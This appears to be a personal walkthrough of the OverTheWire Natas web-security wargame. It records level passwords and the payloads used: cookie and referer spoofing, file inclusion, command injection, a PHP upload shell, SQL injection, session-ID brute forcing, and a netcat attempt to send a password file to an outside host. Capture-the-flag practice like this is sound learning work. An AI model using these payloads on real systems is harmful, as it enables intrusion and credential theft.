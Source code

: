 
Natas
=====

http://overthewire.org/wargames/natas/

Major takeaways:
- 

### natas0: natas0
View source.

### natas1: gtVrDuiDfck831PqWsLEZy5gyDz1clto
view-source:http://natas1.natas.labs.overthewire.org/

Right clicking disabled, download the source and have a look.

### natas2: ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi
http://natas2.natas.labs.overthewire.org/files/users.txt

Directory index on /files/

### natas3: sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

"Not even Google will find it this time."

http://natas3.natas.labs.overthewire.org/robots.txt

### natas4: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

Setting the referer header.

```
$ curl --basic -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ http://natas4.natas.labs.overthewire.org/ --referer http://natas5.natas.labs.overthewire.org/
```

### natas5: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

Using -v means you can see the Set-Cookie header and see the loggedin=0 it's trying to send.

```
$ curl --basic -u natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq http://natas5.natas.labs.overthewire.org/ --cookie loggedin=1 -v
```

### natas6: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

The php source references a secret in /includes/secret.inc. 
When you run it through the form it tells you the password.

### natas7: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

PHP file inclusion bug.

```
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```

### natas8: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

Reverse the secret encoding function.

```
function decodeSecret($s) {
    return base64_decode(strrev(hex2bin($s)));
}
```

### natas9: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

You can do pretty much whatever you want with that grep command to capture output.

```
http://natas9.natas.labs.overthewire.org/?needle=.+%2Fetc%2Fnatas_webpass%2F*&submit=Search
```

### natas10: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

Same thing.  The filtering didn't affect the command I used.  Backticks would be fine too.

```
http://natas10.natas.labs.overthewire.org/?needle=.+%2Fetc%2Fnatas_webpass%2F*&submit=Search
```

### natas11: U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

```
$m = "ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw\x3D";
echo "OriginalCookie: " . $m . "\n";
$match = base64_decode($m);

$encoded_struct = json_encode(array( "showpassword"=>"no", "bgcolor"=>"#ffffff" ));
echo "ENCODED " . $encoded_struct . "\n";
echo "MATCH " . $match . "\n";

$key = xor_encrypt($encoded_struct, $match);
$key = 'qw8J';
echo "@KEY@: " . $key . "\n";

$reencoded = xor_encrypt($match, $key);
echo "FOUND IN OLD: " . $reencoded . "\n";


// Let's encrypt again

$new_struct = json_encode(array( "showpassword"=>"yes", "bgcolor"=>"#ffffff" ));

$newtoken = xor_encrypt2($new_struct);
echo "@NEW@: " . base64_encode($newtoken) . "\n";
echo "what is here? " . xor_encrypt2($newtoken) . "\n";

$struct = json_decode(xor_encrypt2($newtoken), true);
var_dump($struct);
```

- Should have started by understanding the XOR plaintext attack.
- Trying to reverse characters here was probably not a good idea.
- Moving this to Python was probably a bad idea. Something with base64 being different.
- PHP is wet garbage. Need to find a function to display binary data better.
- Remember to re-state your assumptions.  The key repeated every 4 characters, but ended before
  a complete revolution.  I should have looked at the key, copied out the 4 repeating characters
  and used that, rather than doubling up the key and having the last chunk be incorrect.  Tough
  to track down.

### natas12: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

- In developer tools, change the filename to hello.php.
- That pathinfo() function uses the same file extension and doesn't filter for jpg/jpeg.
- Then it runs whatever .php files are sitting there.
```
<?php

echo "hello from me\n";

system("cat /etc/natas_webpass/*");

?>
```

### natas13: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

- Same idea as the last one.  But it'll run exif\_imagetype() on it, so you need to have 
  enough of a JPEG file at the top to trick php, but if you add that .php file extension
  in the form, it'll run it as php again anyway.

### natas14: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

```
$ curl --basic -u natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1 http://natas14.natas.labs.overthewire.org?debug=yes -F username='" or 1#' -F password=abc123
```

### natas15: AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

I made an educated guess that the user is natas16 and verified it exists.
We can inject some SQL, but we can't get output - we only know if a row was returned or not.
I wrote a script to start trying strings and see if there exists a password that starts with 
that string. If there is, start trying more characters on the end of that string. 

Didn't realize LIKE was case-insensitive. Great. :tada:

### natas16: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh 

``` 
passthru("grep -i \"$key\" dictionary.txt"); 
```

Okay, so it's filtering things out when we run the grep command. So how do we get some output
out of this thing?  It's tough to break out of the quotes.  But we can run a subcommand, so 
there's a lot we can do.
 - Tried using `nc -l 0.0.0.0 12345` but the host doesn't accept connections.  It does hang, so netcat exists.
 - Tried using `nc server.com 12345 < /etc/natas_webpass/natas17` but it doesn't make outgoing connections.
 - Tried using `.$(echo -e \\042) /etc/natas*/* $(echo -e \\042)` to emit quotes, but it fails for some reason.

Okay, if I pull the first char of the file in the subcommand, whatever it greps out will tell me the character
it starts with at any rate.  I wonder if there are dictionary entries with numbers.  I think I can write 
something to work with isupper as well.  It seemed like a reasonable solution, and these gaps heavily reduce
the brute force space, but I'd really like to get the exact data pulled out.

Usually I'd do something like `grep ^something file && echo found` or something, but pipe is filtered out,
so I had to look at other ways.  Whatever subcommand you run still needs to be incorporated into a valid 
grep command that'll go through the dictionary file.  What I settled on was `hello$(grep -l ^%s /etc/natas_webpass/natas17)`
So if the string is in the file, it'll try to grep for hello/etc/nataswebpass/natas17 and won't find anything.
If the string isn't in the file, it'll grep for hello in the dictionary.  Using that I could basically
reuse the script from the last exercise to brute force the contents of the password file out.

### natas17: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

And that'll be a totally blind SQL injection.  Well I think I can reuse 15 pretty much completely.

```
select sleep(3) from users where username = "natas18" and password LIKE BINARY "~~"
```

Took a little while to figure out where the sleep would go. A subquery seems like the standard place.
God damn, it's amazing how much a person can do with a database connection. Amazing that by default 
everything is completely open - with that query you could dump the schema and everything in the database,
slowly, if you had enough time.

### natas18: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

First step, clean up the PHP a little bit so you can see what's going on.
So it looks like there's no way to enter anything that would make you an admin. But the PHPSESSID is 
a number from 1-640, so I wrote a for loop to try them all and see if I could hijack an admin's session.
Unfortunately the script didn't kick out the PHPSESSID that was correct, but that's ok.

```
$ for i in `seq 640`; do echo trying $i >&2; curl --basic -u natas$LEVEL:$PASS http://natas$LEVEL.natas.labs.overthewire.org/index.php?debug=yes --cookie PHPSESSID=$i; done > out
```

### natas19: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs


